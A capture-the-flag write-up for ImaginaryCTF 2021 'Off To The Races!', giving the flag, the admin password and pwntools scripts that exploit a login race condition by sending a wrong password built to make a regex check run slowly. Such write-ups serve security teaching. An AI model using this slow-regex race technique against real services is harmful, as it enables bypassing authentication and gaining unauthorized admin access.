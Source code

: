 # ImaginaryCTF 2021: Off To The Races!

![date](https://img.shields.io/badge/date-28.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![misc category](https://img.shields.io/badge/category-misc-lightgrey.svg) ![score](https://img.shields.io/badge/score-275-blue.svg) ![solves](https://img.shields.io/badge/solves-39-brightgreen.svg)

## Description

They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

## Attached files

- [races.py](https://github.com/krzysztof-bochm/Imaginary-CTF-2021-Writeups/blob/main/races.py)

## Summary

To acquire the flag we need to exploit race condition existing in the program, we will be able to use admin's menu while not being admin both of which are needed to buy a flag.

## Flag

``` ictf{regrets_may_be_the_plural_of_regex_but_ive_no_regrets_from_betting_on_a_sure_thing} ```

## Detailed solution

The program keeps track of how much money admin has, it starts at 0 and we need it to be at least 100 to buy the flag. 

It is very easy to do and does not require any exploits. We can simply bet 100 currency on 3 different horses, then login as admin and pick a winner.
This way whichever horse gets selected, admin account will have 100 currency.

We can do this with simple script

```
#!/bin/python

from pwn import *

io = remote('chal.imaginaryctf.org', 42016)

p = log.progress("Status:")

p.status("Placing bets")
io.recvuntil('>>>')
io.sendline('1')                           # place bet

io.recvuntil('bet on?')
io.sendline('A')                           # horse's name

io.recvuntil('to bet?')
io.sendline('100')                         # how much money

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('B')

io.recvuntil('to bet?')
io.sendline('100')

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('C')

io.recvuntil('to bet?')
io.sendline('100')


p.status("Logging in as admin")
io.recvuntil('>>>')

io.sendline('2')                           # login as admin
io.recvuntil('logout):')

io.sendline('ju5tnEvEEvErl05E')            # passwd


p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')                           # pick winner

io.interactive()
```

If we would check the money now we would see, that we really have the 100 currency.

Admin's password is checked using this regex

``` rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4') ```

which would accept different passwords too, but I will simplify it to

``` 'ju5tn' + 'EvEEvE' * N + 'rl05E' ```

Now we need to somehow get into admin's menu while not being an admin.
It can be achieved thanks to a race condition existing when checking the password.

```
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)
    
def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```

We can see that password is checked on another thread, and thread displaying menus is just waiting 2 seconds to make sure password is already checked. 
We will exploit that by sending a password that takes long time to get verified, but also is wrong. 
This way the main thread has enough time to display admin's menu for us while password checking thread logs us out.
We now have access to admin commands while not being admin.

All of this can be achieved by modifying our script:
```
...
p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')


p.status('Logging out')
io.recvuntil('>>>')
io.sendline('4')

io.recvuntil('logout):')
io.sendline(
        'ju5tn' +
        'EvEEvE' * 16 +
        'Rl05E')


p.status('Buying flag /o/')
io.recvuntil('Redirecting...')
io.sendline('3')

io.interactive()
```

We need to send ``` EvEEvE ``` to the server 16 times for the password to need 2 seconds to get checked, this number will vary depending on system performance.
To fail password checking we send ``` Rl05E ``` with **capital** R at the end of the password.

Now we just can wait for password checking thread to log us out and acquire the flag.
